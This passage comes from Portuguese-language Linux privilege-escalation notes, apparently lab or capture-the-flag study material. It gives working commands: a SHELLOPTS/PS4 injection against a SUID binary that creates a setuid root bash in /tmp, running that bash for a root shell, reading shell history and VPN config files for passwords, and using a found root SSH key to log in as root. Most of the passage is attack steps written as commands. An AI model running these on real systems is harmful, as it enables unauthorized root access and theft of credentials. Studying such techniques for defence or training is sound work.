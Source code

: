 ```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

-   Executar o novo rootbash com opção -p para obter um shell root:

```bash
/tmp/rootbash -p
```

<div style="page-break-after: always;"></div>

## 7. Senhas e chaves

### 7.1. Senhas e chaves - Arquivos de histórico

Se um usuário digitar acidentalmente a sua senha na linha de comando em vez de escrevê-lo um prompt de senha, ela pode ficar registada no histórico...

-   Visualize o conteúdo de todos os arquivos de histórico ocultos no diretório inicial do usuário (ser fino!!):

```bsah
cat ~/.*history | less
```

### 7.2. Senhas e chaves - Arquivos de configurações

-   Exemplo:

```bash
ls /home/user
cat /home/user/myvpn.ovpn
```

### 7.3. senhas e chaves - chaves SSH

-   Exemplo de arquivos ocultos:

```bash
ls -la /
ls -l /.ssh
```

Nesta pasta é comum existir chaves ssh mal protegidas... Exemplo com um possível arquivo root_key:

-   copiar a chave toda directamente para a minha **KALI-LINUX** e dar as permições adequadas (para não ser bloqueado pela maquina alvo), e entrar via ssh:

```bash
chmod 600 root_key
ssh -i root_key root@10.10.10.10
```

<div style="page-break-after: always;"></div>

## 8. NFS exports - NFS no_root_squash
